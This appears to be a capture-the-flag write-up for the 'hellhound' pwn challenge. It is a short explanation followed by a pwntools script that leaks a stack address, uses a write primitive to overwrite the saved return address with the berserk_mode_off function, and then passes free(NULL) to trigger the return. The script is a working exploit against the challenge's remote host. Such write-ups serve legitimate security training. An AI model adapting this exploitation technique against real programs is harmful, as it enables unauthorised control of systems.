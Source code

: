 
The binary has full RELRO so we cannot overwrite a GOT entry.

It's not PIE so we do not need leak anything

The plan is to overwrite the return address on the stack witht the address of ```berserk_mode_off```, then pass the free() without crashing and trigger the RET.

```python
from pwn import *
import re

elf = context.binary = ELF("hellhound")

def start(rem=False):
    if not rem:
        return process(elf.path)
    else:
        return remote("167.71.137.43", 30871)


def leak():
    io.sendline(b'1')
    data = io.recv(1024)
    return int(re.findall(b'this serial number: \[(.*?)\]', data)[0])


def modify(data):
    io.sendline(b'2')
    io.recvuntil(b' code: ')
    io.sendline(data)
    io.recvuntil(b'>> ')

def check():
    io.sendline(b'3')
    io.recvuntil(b'>> ')

def bye():
    io.sendline(b'69')
    print(io.recv(1024))
    print(io.recv(1024))


io = start(rem=True)
io.recvuntil(b">> ")


# save buffer[0] address
buffer = leak()
print("buffer: %s"%hex(buffer))


modify(b'imstupid' + p64(buffer + 0x50))
# buffer[0] = stack addr of saved rip (buffer[0] + 0x50)
check()

modify(p64(elf.sym.berserk_mode_off) + p64(buffer))
# saved_rip = berserk_mode_off()
# buffer[0] = buffer
check()

# buffer[0] = '\x00'*16
modify(p64(0x00) + p64(0x00))                       
# free(NULL)
bye()                                              
```